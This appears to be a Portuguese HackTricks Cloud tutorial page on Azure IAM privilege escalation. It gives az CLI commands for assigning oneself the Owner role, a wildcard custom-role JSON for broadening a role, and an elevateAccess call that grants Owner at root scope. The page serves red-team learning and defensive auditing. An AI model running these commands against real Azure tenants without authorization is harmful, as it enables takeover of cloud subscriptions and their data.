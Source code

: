 # Az - Azure IAM Privesc (Authorization)

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Compartilhe truques de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}

## Azure IAM

Para mais informações, confira:

{% content-ref url="../az-services/az-azuread.md" %}
[az-azuread.md](../az-services/az-azuread.md)
{% endcontent-ref %}

### Microsoft.Authorization/roleAssignments/write

Esta permissão permite atribuir funções a principais sobre um escopo específico, permitindo que um atacante escale privilégios ao se atribuir uma função mais privilegiada:

{% code overflow="wrap" %}
```bash
# Example
az role assignment create --role Owner --assignee "24efe8cf-c59e-45c2-a5c7-c7e552a07170" --scope "/subscriptions/9291ff6e-6afb-430e-82a4-6f04b2d05c7f/resourceGroups/Resource_Group_1/providers/Microsoft.KeyVault/vaults/testing-1231234"
```
{% endcode %}

### Microsoft.Authorization/roleDefinitions/Write

Esta permissão permite modificar as permissões concedidas por um papel, permitindo que um atacante escale privilégios ao conceder mais permissões a um papel que ele tenha atribuído.

Crie o arquivo `role.json` com o seguinte **conteúdo**:
```json
{
"Name": "<name of the role>",
"IsCustom": true,
"Description": "Custom role with elevated privileges",
"Actions": [
"*"
],
"NotActions": [],
"DataActions": [
"*"
],
"NotDataActions": [],
"AssignableScopes": [
"/subscriptions/<subscription-id>"
]
}
```
Então atualize as permissões de função com a definição anterior chamando:
```bash
az role definition update --role-definition role.json
```
### Microsoft.Authorization/elevateAccess/action

Esta permissão permite elevar privilégios e ser capaz de atribuir permissões a qualquer principal para recursos do Azure. É destinada a ser concedida a Administradores Globais do Entra ID para que eles também possam gerenciar permissões sobre recursos do Azure.

{% hint style="success" %}
Acho que o usuário precisa ser Administrador Global no Entra ID para que a chamada de elevação funcione.
{% endhint %}

{% code overflow="wrap" %}
```bash
# Call elevate
az rest --method POST --uri "https://management.azure.com/providers/Microsoft.Authorization/elevateAccess?api-version=2016-07-01"

# Grant a user the Owner role
az role assignment create --assignee "<obeject-id>" --role "Owner" --scope "/"
```
{% endcode %}

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporte o HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Compartilhe truques de hacking enviando PRs para o** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>
{% endhint %}
